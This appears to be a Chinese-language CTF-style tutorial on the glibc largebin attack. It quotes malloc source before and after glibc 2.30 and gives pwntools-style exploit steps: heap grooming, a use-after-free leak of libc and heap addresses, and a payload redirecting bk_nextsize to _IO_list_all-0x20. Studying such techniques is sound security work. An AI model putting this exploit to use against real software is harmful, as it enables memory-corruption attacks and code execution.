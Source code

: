 ```yaml
---
title: Largebin Attack
date: '2025-05-13 00:01:29'
updated: '2025-05-26 21:49:25'
---
```

Largebin 从 bk 方向取出 chunk

## 理解
跟 unlink 很相似，

都是利用 bin 这个链表在插入和抽除 chunk 时对链表中其他 chunk 的指针的修改来实现任意地址修改



只有 largebin 里面的 chunk 会有 fd_nextsize 和 bk_nextsize 这两个指针

+ fd_nextsize：指向前一个与当前chunk_size不小同的块（注意是同一链条上）
+ bk_nextsize：指向后一个与当前chunk_size大小不同的块（同上）

在相同大小的chunk中，只有第一个chunk的fd_nextsize和bk_nextsize才有值，之后的全是 0

largebin 里的 chunk 是按<font style="background-color:#FBDE28;">从大到小</font>排序的，如果size相同则按free时间前后来排序

> 这里有个利用点：
>
> 前提是 largechunk， 如果释放的堆块比链尾的小则会直接放入链尾而不进行过多的检查
>

largebin 的结构：

![](/images/38932aba173f5bd06bdb75b9b8ba1ba8.png)

largebin 当中 fd_nextsize 和 bk_nextsize 是一个循环链表

![](/images/997efd9359e7b0e4617bc179c97a8bb8.png)

第一个 largebin 里面的 chunk 的 fd 和 bk 跟 unsignedchunk 一样都是指向一个 libc 地址

但是因为 fd_nextsize 和 bk_nextsize 是一个循环链表，所以第一个进入 largebin 的 chunk 这两个指针都是指向自己的

![](/images/d76685f932d3e9be3fff07a6edd836a0.png)

## 2.30 版本之前的利用过程
```plain
free(p1);
free(p2);
malloc(0x90);
free(p3);
```

<font style="background-color:#FBDE28;">p1、p2、p3 都是 largechunk，且 p3 大于 p2</font>

p1、p2 被 free 之后先进入了 unsortedbin

在 malloc 的过程中，按照 fast-->unsorted-->small-->large-->top 的顺序取 chunk，

因为 malloc 的大小大于 fastchunk，unsortedbin 是 FIFO 机制，所以把先 free 进 unsortedbin 的 p1 切割出了 0x90 大小又放回了 unsortedbin，

然后又因为遍历了一遍 unsortedbin，就把 p2 给放进了 largebin

接着：

```plain
malloc(0x90)
```

还在 unsortedbin 里面的 p2 接着被切割了 0x90 大小，p3 也进到了 largebin 当中

因为 p3 大于 p2，所以 p3 会插入到 p2 后面（bk 方向，largebin 当中 fd 方向 chunk 大小减小）

这个时候就可以通过篡改 p2 的 bk 和 bk_nextsize 来让 p3 插入时修改到 p2 的 bk 和 bk_nextsize 指向的 chunk 的 fd 和 fd_nextsize：

```c
while ((unsigned long) size < chunksize_nomask (fwd))
{
	fwd = fwd->fd_nextsize; //这里是顺着largebin找到最小的大于申请size的largechunk
	assert (chunk_main_arena (fwd));
}

if ((unsigned long) size == (unsigned long) chunksize_nomask (fwd))
	/* Always insert in the second position.  */
	fwd = fwd->fd;
else
{
	victim->fd_nextsize = fwd; //victim是从unsortedbin取出的chunk
	victim->bk_nextsize = fwd->bk_nextsize;
	fwd->bk_nextsize = victim;
	victim->bk_nextsize->fd_nextsize = victim;
}
bck = fwd->bk;
```

![](/images/0239bd7c97d457ea283f517ba8a76647.png)

## 2.30 版本后的利用方式
### 新增检查
```c
while ((unsigned long) size < chunksize_nomask (fwd))
{
	fwd = fwd->fd_nextsize;
	assert (chunk_main_arena (fwd));
}

if ((unsigned long) size == (unsigned long) chunksize_nomask (fwd))
	/* Always insert in the second position.  */
    fwd = fwd->fd;
else
{
	victim->fd_nextsize = fwd;
	victim->bk_nextsize = fwd->bk_nextsize;
	if (__glibc_unlikely (fwd->bk_nextsize->fd_nextsize != fwd)) //检查了largebin对应chunk的bk_nextsize指向的chunk的fd_nextsize指针是否正确
		malloc_printerr ("malloc(): largebin double linked list corrupted (nextsize)");
	fwd->bk_nextsize = victim;
	victim->bk_nextsize->fd_nextsize = victim;
}
bck = fwd->bk;
if (bck->fd != fwd) //检查了largebin对应chunk的bk指向的chunk的fd指针是否正确
	malloc_printerr ("malloc(): largebin double linked list corrupted (bk)");
```

可以利用的新方向：

```c
	victim_index = largebin_index (size); //获取申请size对应的largebins里面的bin的index
    bck = bin_at (av, victim_index); //获取对应index的bin的尾堆块（最大的）
    fwd = bck->fd;
...
if ((unsigned long) (size) < (unsigned long) chunksize_nomask (bck->bk))
{
	fwd = bck; //将fwd赋值为bin头
	bck = bck->bk; //bck赋值为当前bin中最小那个chunk
	
	victim->fd_nextsize = fwd->fd; //将victim的fd_nextsize赋值为bin中的尾堆块
	victim->bk_nextsize = fwd->fd->bk_nextsize; //将victim的bk_nextsize赋值为当前bin中最小的chunk
	fwd->fd->bk_nextsize = victim->bk_nextsize->fd_nextsize = victim; //当前bin中的尾堆块的bk_nextsize指向victim，当前最小chunk的fd_nextsize也指向victim
}
```

此时`bck`是对应`index`的`bin`头。`victim`指的是当前正在被释放的`chunk`

1. 首先将`fwd`赋值为`bin`头，然后`bck`赋值为当前`bin`中最小那个`chunk`
2. 紧接着将`victim`的`fd_nextsize`赋值为`bin`中的尾堆块，
3. 然后将`bk_nextsize`赋值为当前`bin`中最小的`chunk`
4. 重点来了！当前`bin`中的尾堆块的`bk_nextsize`指向`victim`
5. 当前最小`chunk`的`fd_nextsize`也指向`victim`
6. 现在我们才视为`victim`完全进入了`largebin`当中

### 具体利用过程
我们如果要执行到那条重要语句，需要先后释放掉一大一小两个largechunk

在每个largechunk下面要多一个chunk用来防止largechunk被释放后被向下合并，大小任意

```python
add(0, 0x510)
add(1, 0x30) 
add(2, 0x520)
add(3, 0x30)
```

先释放大的 largechunk（chunk2），然后再申请一个比它大的 chunk，让它进入 largebin

接着利用 UAF 来从 chunk2 当中获得 libc 地址（fd、bk）和堆地址（fd_nextsize、bk_nextsize），

因为 libc 地和堆地址的高位都是 \x00 ，输出会被截断，所以得分两次泄露：

先直接泄露出 fd 的 libc 地址，然后再把 fd 和 bk 覆盖上非 \x00 数据再把fd_nextsize 的堆地址泄露

```python
libc=u64(link.recvuntil('\x7f')[-6:].ljust(8,b'\x00'))
# print(hex(libc))
libc_base=libc-0x21b110
print(hex(libc_base))
_IO_list_all=libc_base+0x21b680

edit(2,b'a'*0x10)
show(2)
link.recvuntil(b'a'*0x10)
heap=u64(link.recv(6).ljust(8,b'\x00'))
print(hex(heap))
```

接着就是释放掉 chunk0，之后再申请一个比 chunk0 和 chunk2 都大的 chunk 就可以让 chunk0 进到 largebin 里面，就会执行：

```c
fwd = bck; //将fwd赋值为bin头
bck = bck->bk; //bck赋值为当前bin中最小那个chunk

victim->fd_nextsize = fwd->fd; //将victim的fd_nextsize赋值为bin中的尾堆块
victim->bk_nextsize = fwd->fd->bk_nextsize; //将victim的bk_nextsize赋值为当前bin中最小的chunk
fwd->fd->bk_nextsize = victim->bk_nextsize->fd_nextsize = victim; //当前bin中的尾堆块的bk_nextsize指向victim，当前最小chunk的fd_nextsize也指向victim
```

而这个`当前bin中尾堆块`也就是`fwd->fd`在 edit 完 chunk2 之后，就变成了 `_IO_list_all-0x20` 的位置了

```c
delete(0)
payload=p64(libc)+p64(libc)+p64(heap)+p64(_IO_list_all-0x20)
edit(2,payload)
add(5, 0x550)
```

那么 largebin attack 的这一部分就到这了，接下来是 house of apple2 了

